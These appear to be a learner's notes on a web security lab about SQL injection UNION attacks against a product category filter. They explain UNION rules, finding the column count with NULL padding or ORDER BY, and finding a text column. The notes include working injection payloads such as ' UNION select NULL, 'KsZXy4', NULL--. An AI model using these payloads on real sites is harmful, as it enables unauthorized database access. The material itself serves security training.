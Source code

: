 SQLi attack (way #2):
select a, b from table1 order by 3


### lab_8. SQL injection UNION attack, finding a column containing text
SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

Step #1: Determine # of columns

SQLi attack (way #1):

select ? from table1 UNION select NULL, NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns

SQLi attack (way #2):
select a, b from table1 order by 3

Step #2: Determine the data type of the columns
select a, b, c from table1 UNION select NULL, NULL, 'a'
-> error -> column is not type text
-> no error -> column is of type text

Analysis:

' order by 1--
-> 3 columns -> 1st column is not shown on the page.

' UNION select NULL, 'KsZXy4', NULL--
-> 2nd column of type string
